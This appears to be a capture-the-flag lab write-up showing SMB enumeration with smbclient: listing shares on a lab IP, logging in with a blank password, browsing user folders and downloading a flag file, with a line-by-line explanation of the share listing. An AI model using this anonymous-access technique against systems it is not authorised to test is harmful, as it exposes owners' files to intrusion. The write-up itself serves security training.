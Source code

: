 ```bash
smbclient //<target-ip>/WorkShares
```

When prompted for a password, simply press Enter.

### Finding and Downloading the Flag
Once connected to the SMB share, we can navigate directories and look for the flag:

```
smb: \> ls
smb: \> cd Amy.J
smb: \Amy.J\> ls
smb: \Amy.J\> cd ..
smb: \> cd James.P
smb: \James.P\> ls
```

When we find the flag file, we can download it using the `get` command:

```
smb: \James.P\> get flag.txt
```

```bash
smbclient -L 10.129.213.214
Password for [WORKGROUP\ryan]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.213.214 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
Line 1: Command executed - `smbclient -L 10.129.213.214` - This command lists (-L) all available SMB shares on the target IP without connecting to any specific share.

Line 2: Password prompt - The tool asks for authentication credentials for the WORKGROUP domain. Pressing Enter (blank password) is often sufficient for enumeration.

Lines 4-8: Share listing table with three columns:
   - Sharename: The name of the available network share
   - Type: The type of resource (Disk = file share, IPC = inter-process communication)
   - Comment: Additional information about the share's purpose

Line 5: ADMIN$ share - Administrative share used for remote management, typically maps to the Windows directory. Requires administrator access.

Line 6: C$ share - Default administrative share that maps to the C: drive. Requires administrator access.

Line 7: IPC$ share - Special share used for inter-process communication and remote administration. Not a regular file share.
